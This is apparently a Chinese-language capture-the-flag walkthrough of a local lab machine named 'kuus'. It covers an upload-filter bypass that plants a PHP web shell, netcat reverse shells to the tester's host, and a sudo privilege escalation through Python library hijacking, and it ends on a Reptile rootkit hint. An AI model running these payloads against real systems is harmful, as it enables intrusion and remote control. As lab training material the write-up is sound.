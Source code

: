 做virtualBox的端口映射吧
# 服务扫描

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A -T 4 -p 22,80 192.168.18.238

```
# GetSHell
访问80http://192.168.18.238/
文件上传，白名单限制,只允许图片格式,使用1.php.jpg的方式绕过文件上传，原因可能是因为后端只取点后的第一个后缀进行解析。
```css
POST /upload.php HTTP/1.1

Host: 192.168.18.238

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: multipart/form-data; boundary=---------------------------58834982911681499741555270890

Content-Length: 365

Origin: http://192.168.18.238

Connection: close

Referer: http://192.168.18.238/

Upgrade-Insecure-Requests: 1



-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="photo"; filename="1.php.jpg"

Content-Type: image/png



<?php system($_GET['cmd']);?>

-----------------------------58834982911681499741555270890

Content-Disposition: form-data; name="submit"



Upload

-----------------------------58834982911681499741555270890--
```

访问http://192.168.18.238/upload/1.php.jpg?cmd=id

反弹shell
```css
http://192.168.18.238/upload/1.php.jpg?cmd=nc%20-e%20/bin/bash%20192.168.44.128%209001


┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4854
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
script /dev/null -c bash
Script started, file is /dev/null
www-data@kuus:/var/www/html/upload$ 

```

# 提权
tignasse 账号下有个.pass.txt 文件，但是经过测试并没有用
尝试常规的sudo\suid\内核\任务计划\进程分析手段、爆破了一段时间之后,也没结果。实在不想浪费时间了，看了别人的writeup，才知道。这里密码另有隐情！
```c
www-data@kuus:/home$ ls
ls
mister_b  tignasse

www-data@kuus:/home/tignasse$ more .pass.txt
more .pass.txt
716n4553
www-data@kuus:/home/tignasse$ cat .pass.txt
cat .pass.txt
Try harder !

```

hydra
```c
hydra -l tignasse -p 716n4553 ssh://192.168.18.238

[22][ssh] host: 192.168.18.238   login: tignasse   password: 716n4553
```

ssh
```c
┌──(kali㉿kali)-[~]
└─$ sudo ssh tignasse@192.168.18.238

tignasse@kuus:~$ sudo -l
    (mister_b) NOPASSWD: /usr/bin/python /opt/games/game.py

```
tignasse 用户下，可以看到mister_b 用户有个特权脚本
game.py文件由用户mister_b所有，它导入3 个库。可以看到导入的库使用了可能被滥用的相对路径。
1、我们在/opt/games内创建一个名为random.py的文件，其中包含以下内容：
```
import os 
os.system("nc -e /bin/bash 192.168.44.128 9000")
```
2.、将/opt/games添加到PATH：
通过 python 库劫持进行的权限升级，因为 python 会搜索它导入的库，这些库通常是 PATH 中第一个的库，这就是我们在PATH之前添加/opt/games的原因。
3、最后我们使用nc 监听 2334端口，然后使用sudo 执行该脚本后，成功获取mister_b权限

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [192.168.44.128] from (UNKNOWN) [192.168.44.10] 4315
id
uid=1001(mister_b) gid=1001(mister_b) groups=1001(mister_b)
script /dev/null -c bash
Script started, file is /dev/null


mister_b@kuus:~$ cat user.txt
cat user.txt
Ciphura

```

历史记录发现执行了一个二进制文件
```c
mister_b@kuus:~$ cat .bash_history
cat .bash_history
ps -aux |grep root
ss -altp
sudo -l
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
./sandfly-processdecloak
exit

```
sandfly-processdecloak是一个实用程序，用于快速扫描被常见和不常见的可加载内核模块隐形 Rootkit 隐藏的 Linux 进程 ID (PID)，并将其隐藏起来，使它们可见。比如：Diamorphine, Reptile and variants

编译了一个上传上去执行并没有看到隐藏进程，后面找了一下reptile项目，发现reptile 文件夹也是隐藏的。

https://github.com/f0rb1dd3n/Reptile/wiki/Local-Usage